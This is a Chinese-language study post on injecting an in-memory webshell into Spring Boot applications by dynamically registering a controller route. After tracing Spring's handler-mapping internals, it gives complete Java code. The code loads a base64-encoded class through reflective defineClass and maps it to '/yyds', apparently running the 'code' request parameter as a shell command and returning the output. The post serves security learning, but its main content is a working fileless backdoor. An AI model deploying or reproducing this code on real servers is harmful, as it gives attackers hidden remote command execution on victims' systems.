









# SpringBoot内存马学习-通过添加新路由

## 注册类时简单分析

首先为了跟踪流程简单写一个路由



在AbstractHandlerMethodMapping的initHandlerMethods方法下断点

首先获取全部的bean再遍历，遍历的目的是寻找Controller类，之后获取bean的类型保存到beanType


接下来调用detectHandlerMethods



我们看看isHandler干了啥，判断是否有注解RequestMapping或者Controller



很显然我们的Test类是有的，继续跟入

跟入这个函数



这个类我下断点没进去，主要是懒得跟入，idea快捷键ctrl+alb+b查看方法，在RequestMappingHandlerMapping找到了答案

获取注解和url的映射关系生成RequestMappingInfo对象

在getMappingForMethod()方法中，会解析Controller类的方法中的注解，从而生成一个与之对应的RequestMappingInfo对象，里面保存了访问Method的url条件



之后将bean，Method，RequestMappingInfo注册进MappingRegistry

最后的registerHandlerMethod()方法就是执行mappingRegistry.register()方法，到这里，url与处理的类之间的映射关系被保存，当我们访问url时，springboot便知道由哪个类中的那个方法处理，如果我们能创建一个RequestMappingInfo，一个处理的类，将他们的映射关系保存进mappingRegistry，内存shell就能建立

在AbstractHandlerMethodMapping类中还有一个方法也会进入mappingRegistry.register()，就是registerMapping方法，这个方法就是动态添加Controller的接口，在程序过程中，只要调用这个接口，就能注册一个Controller类，从上面的分析过程可以知道，这个接口的使用条件是1，bean实例，2，处理请求的method，3、对应的RequestMappinginfo对象

## 写内存马

像上面说的创建一个RequestMappingInfo，一个处理的类，将他们的映射关系保存进mappingRegistry，内存shell就能建立


上面的AbstractHandlerMethodMapping是个抽象方法不能直接调用，而RequestMappingHandlerMapping继承了它，因此我们选这个，而它又是一个JavaBean对象

我们可以通过获得当前代码运行时的上下文环境来加载bean

最终代码

```Java
String code = "yv66vgAAADQAigoAIQBGCABHCwBIAEkLAEoASwgATAgATQoATgBPCgAMAFAIAFEKAAwAUgcAUwcAVAgAVQgAVgoACwBXCABYCABZBwBaCgALAFsKAFwAXQoAEgBeCABfCgASAGAKABIAYQoAEgBiCgASAGMKAGQAZQoAZABmCgBkAGMLAEoAZwcAaAcAaQcAagEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAFTGFiYzsBAAVsb2dpbgEAUihMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVxdWVzdDtMamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2U7KVYBAAFwAQAaTGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcjsBAAFvAQASTGphdmEvbGFuZy9TdHJpbmc7AQABYwEAE0xqYXZhL3V0aWwvU2Nhbm5lcjsBAARhcmcwAQAGd3JpdGVyAQAVTGphdmEvaW8vUHJpbnRXcml0ZXI7AQAHcmVxdWVzdAEAJ0xqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0OwEACHJlc3BvbnNlAQAoTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlOwEADVN0YWNrTWFwVGFibGUHAFQHAGsHAFMHAFoHAGgBABBNZXRob2RQYXJhbWV0ZXJzAQAZUnVudGltZVZpc2libGVBbm5vdGF0aW9ucwEAOExvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9iaW5kL2Fubm90YXRpb24vUmVxdWVzdE1hcHBpbmc7AQAFdmFsdWUBAAgvZmF2aWNvbgEAClNvdXJjZUZpbGUBAAhhYmMuamF2YQEAK0xvcmcvc3ByaW5nZnJhbWV3b3JrL3N0ZXJlb3R5cGUvQ29udHJvbGxlcjsMACIAIwEABGNvZGUHAGwMAG0AbgcAbwwAcABxAQAAAQAHb3MubmFtZQcAcgwAcwBuDAB0AHUBAAN3aW4MAHYAdwEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgEAEGphdmEvbGFuZy9TdHJpbmcBAAdjbWQuZXhlAQACL2MMACIAeAEABy9iaW4vc2gBAAItYwEAEWphdmEvdXRpbC9TY2FubmVyDAB5AHoHAHsMAHwAfQwAIgB+AQACXEEMAH8AgAwAgQCCDACDAHUMAIQAIwcAawwAhQCGDACHACMMAIgAiQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAANhYmMBABBqYXZhL2xhbmcvT2JqZWN0AQATamF2YS9pby9QcmludFdyaXRlcgEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QBAAxnZXRQYXJhbWV0ZXIBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAJmphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlAQAJZ2V0V3JpdGVyAQAXKClMamF2YS9pby9QcmludFdyaXRlcjsBABBqYXZhL2xhbmcvU3lzdGVtAQALZ2V0UHJvcGVydHkBAAt0b0xvd2VyQ2FzZQEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAIY29udGFpbnMBABsoTGphdmEvbGFuZy9DaGFyU2VxdWVuY2U7KVoBABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQAFc3RhcnQBABUoKUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBAAx1c2VEZWxpbWl0ZXIBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL3V0aWwvU2Nhbm5lcjsBAAdoYXNOZXh0AQADKClaAQAEbmV4dAEABWNsb3NlAQAFd3JpdGUBABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAAVmbHVzaAEACXNlbmRFcnJvcgEABChJKVYAIQAgACEAAAAAAAIAAQAiACMAAQAkAAAALwABAAEAAAAFKrcAAbEAAAACACUAAAAGAAEAAAAJACYAAAAMAAEAAAAFACcAKAAAAAEAKQAqAAMAJAAAAagABgAIAAAAsysSArkAAwIATiy5AAQBADoELcYAkxIFOgUSBrgAB7YACBIJtgAKmQAhuwALWQa9AAxZAxINU1kEEg5TWQUtU7cADzoGpwAeuwALWQa9AAxZAxIQU1kEEhFTWQUtU7cADzoGuwASWRkGtgATtgAUtwAVEha2ABc6BxkHtgAYmQALGQe2ABmnAAUZBToFGQe2ABoZBBkFtgAbGQS2ABwZBLYAHacADCwRAZS5AB4CAKcABE6xAAEAAACuALEAHwADACUAAABKABIAAAAOAAkADwARABAAFQARABkAEwApABQARwAWAGIAGQB4ABoAjAAbAJEAHACYAB0AnQAeAKIAHwClACAArgAjALEAIgCyACUAJgAAAFwACQBEAAMAKwAsAAYAGQCJAC0ALgAFAGIAQAArACwABgB4ACoALwAwAAcACQClADEALgADABEAnQAyADMABAAAALMAJwAoAAAAAACzADQANQABAAAAswA2ADcAAgA4AAAAKQAI/gBHBwA5BwA6BwA5/AAaBwA7/AAlBwA8QQcAOfgAGvkACEIHAD0AAD4AAAAJAgA0AAAANgAAAD8AAAAOAAEAQAABAEFbAAFzAEIAAgBDAAAAAgBEAD8AAAAGAAEARQAA";
byte[] d = new sun.misc.BASE64Decoder().decodeBuffer(code);
java.lang.reflect.Method m = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{String.class, byte[].class, int.class, int.class});
m.setAccessible(true);
m.invoke(Thread.currentThread().getContextClassLoader(), new Object[]{"abc",d, 0, d.length});
ServletContext sss = ((ServletRequestAttributes) RequestContextHolder.getRequestAttributes()).getRequest().getSession().getServletContext();
//        WebApplicationContext context  = WebApplicationContextUtils.getWebApplicationContext(sss);
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
PatternsRequestCondition url = new PatternsRequestCondition("/yyds");
RequestMappingInfo info = new RequestMappingInfo(url, null, null, null, null, null, null);
RequestMappingHandlerMapping rs = context.getBean(RequestMappingHandlerMapping.class);
Method mm = (Class.forName("abc").getDeclaredMethods())[0];
rs.registerMapping(info, Class.forName("abc").newInstance(), mm);
response.getWriter().println("dsasa");
```

## 效果展示

先访问tt路径注入内存马

尝试路由内存马


## 参考学习文章

https://my.oschina.net/u/4587690/blog/4649301